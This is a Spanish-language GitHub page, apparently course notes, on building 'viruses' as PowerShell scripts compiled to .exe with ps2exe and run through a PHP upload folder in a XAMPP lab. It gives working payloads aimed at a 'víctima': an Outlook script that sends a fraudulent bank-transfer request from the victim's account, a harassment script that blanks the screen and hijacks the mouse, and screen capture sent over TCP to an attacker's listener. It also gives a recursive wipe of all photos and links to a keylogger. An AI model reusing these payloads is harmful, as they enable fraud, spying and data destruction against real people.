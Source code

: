 # CREACIÓN DE VIRUS (VERSIÓN .EXE)
<p align="center">
<img src="https://media.giphy.com/media/115BJle6N2Av0A/giphy.gif" />
</p>
Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<p align="center">
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
</p>
<br/>

Para mas dudas con la instalación visita.
 [TUTORIAL](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/)
## MODUS OPERANDI
Para crear el laboratorio, trabajaremos con localhost en xampp y vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos.
Para ello crearemos un PHP dentro de htdocs con lo siguiente:
```powershell
<?php
system(".\\uploads\\hola.exe");
?>
```

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)

------------------------------

## CASOS VARIOS
<p align="center">
<a href="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg"><img src="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg" /></a>
</p>

### PHISHING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.

```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```

**Phishing con la aplicación** [NEXPHISHER](https://github.com/PabloQueipo/SAD/blob/main/2020_11_11.md)

### MOLESTAR 
:satisfied:
Ejecutable con la siguiente secuencia:
1. Minimizar todas las pantallas.
2. Voz con mensaje
3. Gif que habremos introducido junto con el .exe
4. Voz con mensaje y posterior apagar pantalla
5. Bucle que mueve el ratón.

<p align="center">
<img src="https://media.giphy.com/media/eaECZB7V6GACc/giphy.gif"/>
</p>


```powershell
(New-Object -ComObject Shell.Application).MinimizeAll()
(New-Object -com SAPI.SpVoice).speak("Acabo de entrar en tu ordenador")
Start-Process ".\\uploads\\hacker.gif"

Start-Sleep 1
(New-Object -com SAPI.SpVoice).speak("TE VOY A APAGAR LA PANTALLA")

$code = @"
using System;
using System.Runtime.InteropServices;
public class API
{
    [DllImport("user32.dll")]
    public static extern
    int SendMessage(IntPtr hWnd, UInt32 Msg, IntPtr wParam, IntPtr lParam);
}
"@
$t = Add-Type -TypeDefinition $code -PassThru
$t::SendMessage(0xffff, 0x0112, 0xf170, 2)

for(1)
{
    Start-Sleep -Seconds 1
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
    Start-Sleep -Seconds 1
    [System.Windows.Forms.Cursor]::Position=New-Object System.Drawing.Point(($xa+50),($ya+50))
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
}
```

### CAPTURAS DE PANTALLA

Dos maneras:
- Guardarlas en el propio sistema
- Mandarlas Cliente/Servidor

#### Propio Sistema
Con este Script podemos realizar capturas de pantalla y guardarlas en la ruta que indiquemos.
```powershell
[Reflection.Assembly]::LoadWithPartialName("System.Drawing")
function screenshot([Drawing.Rectangle]$bounds, $path) {
$bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height
$graphics = [Drawing.Graphics]::FromImage($bmp)
$graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size)
$bmp.Save($path)
$graphics.Dispose()
$bmp.Dispose()
}
$bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900)
screenshot $bounds "C:\Users\keipo\Desktop\screenshot.png"
```
-------------------------------------------
#### Cliente/Servidor

Para ello el **Cliente será** el archivo que debera ejecutar **la víctima**, y el **Servidor** deberá estar previamente escuchando.
<br/>
**Cliente/Víctima**
:innocent:
```powershell
$port=2053
$TcpClient=New-Object System.Net.Sockets.TcpClient([IPAddress]::Loopback, $port)
$GetStream = $TcpClient.GetStream()
$StreamWriter = New-Object System.IO.StreamWriter $GetStream
$path=’C:\Users\keipo\Desktop\screenshot.bmp’
$Bitmap=New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
$Graphics=[System.Drawing.Graphics]::FromImage($Bitmap)
$Graphics.CopyFromScreen((New-Object System.Drawing.Point(0,0)), (New-Object System.Drawing.Point(0,0)), $Bitmap.Size)
$Graphics.Dispose()
$Bitmap.Save($path,'Bmp')
$Bytes = [System.IO.File]::ReadAllBytes($path)
$StreamWriter.Write($Bytes,0,$Bytes.length)
$StreamWriter.Dispose()
$GetStream.Dispose()
$TcpClient.Dispose()
```

**Servidor/Delincuente**
:smiling_imp:
```powershell
$port=2053
$IPEndPoint=New-Object System.Net.IPEndPoint([IPAddress]::Any,$port)
$TcpListener=New-Object System.Net.Sockets.TcpListener $IPEndPoint
$TcpListener.Start()
$AcceptTcpClient=$TcpListener.AcceptTcpClient()
$GetStream=$AcceptTcpClient.GetStream()
$StreamReader=New-Object System.IO.StreamReader $GetStream
$ReadAllLines = $StreamReader.ReadToEnd()
$Bytes = ([system.Text.Encoding]::Default).GetBytes($ReadAllLines)
[System.IO.File]::WriteAllBytes('C:\Users\keipo\Desktop\screenshotcopy.bmp',$Bytes)
$StreamReader.Dispose()
$GetStream.Dispose()
$AcceptTcpClient.Dispose()
$TcpListener.Stop()
```

### BORRADO DE TODA LA INFORMACIÓN O ALGÚN TIPO
Podemos **Borrar** toda la información o solo algun tipo, como por ejemplo todas las fotografías que contiene el Pc.
<p align="center">
<img src="https://media.giphy.com/media/R7m04yMaGWVeE/giphy.gif" />
</p>
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.jpg
Remove-Item $fotos
```

### CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)
